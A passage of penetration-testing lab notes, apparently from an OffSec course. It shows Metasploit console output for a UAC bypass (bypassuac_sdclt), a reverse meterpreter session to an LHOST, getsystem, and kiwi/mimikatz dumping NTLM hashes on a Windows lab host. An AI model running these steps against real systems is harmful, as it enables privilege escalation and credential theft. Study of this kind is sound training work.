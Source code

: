 ```powershell
msf6 exploit(windows/local/bypassuac_sdclt) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  2         meterpreter x64/windows  ITWK01\offsec @ ITWK01  192.168.45.232:443 -> 192.168.241.223:49294 (192.168.241.223)

msf6 exploit(windows/local/bypassuac_sdclt) > set session 2
session => 2
msf6 exploit(windows/local/bypassuac_sdclt) > set LHOST 192.168.45.232
LHOST => 192.168.45.232
msf6 exploit(windows/local/bypassuac_sdclt) > run
...
meterpreter > shell
Process 7068 created.
C:\Windows\system32>powershell -ep bypass
PS C:\Windows\system32> Import-Module NtObjectManager
PS C:\Windows\system32> Get-NtTokenIntegrityLevel
High
```
{% endcode %}

### Kiwi

With elevated privileges with can also load MSF's extensions, such as `kiwi`, a wrapper around `mimikatz`. The `creds_msv` extracts LM and NTLM hashes.

{% code overflow="wrap" %}
```bash
# Load mimikatz module
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > load kiwi
meterpreter > creds_msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

Username  Domain  NTLM              SHA1
--------  ------  ----              ----
luiza     ITWK01  167<REDACTED>837
offsec    ITWK01  1c3<REDACTED>bbd
```
{% endcode %}

## Pivoting
